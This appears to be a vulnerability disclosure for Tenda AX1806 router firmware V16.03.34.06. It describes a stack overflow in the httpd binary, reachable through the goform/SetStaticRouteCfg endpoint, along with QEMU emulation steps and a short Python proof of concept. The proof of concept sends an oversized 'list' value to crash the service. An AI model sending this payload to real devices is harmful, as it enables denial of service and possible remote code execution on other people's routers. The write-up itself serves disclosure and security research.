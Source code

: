 ### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站：[https://www.tenda.com.cn/material/show/103518](https://www.tenda.com.cn/material/show/103518)

### Affected version

**V16.03.34.06**

### Environmental simulation

need build Network bridge:

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

qemu start command：

```text-plain
sudo qemu-mipsel-static -L . ./bin/httpd
```

### Vulnerability details

tdhttpd in directory /bin has stack overflow vulnerability. The vulnerability occurrs in the function, which can be accessed via the URL .`fromSetRouteStatic goform/SetStaticRouteCfg`

![image](https://github.com/Raining-101/IOT_cve/blob/a7697c82331c99189be61d7b19f54cddc00365d5/image/1_tenda-ac8_image.png)

Stack overflow point：

![image](https://github.com/Raining-101/IOT_cve/blob/326b7c464ac9bdadf22b3eb19b48fd54df416bde/image/2_tenda-ac8_image.png)
As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

### PoC

```text-plain
import requests

data = {
    b"list": b'Raining'*0x400+b',R,R,R'
}
res = requests.post("http://192.168.142.100/goform/SetStaticRouteCfg", data=data)
print(res.content)
```

![image](https://github.com/Raining-101/IOT_cve/blob/23e96bdb4dae3997d1c5555a8011196e5e357ac1/image/3_tenda-ac8_image.png)
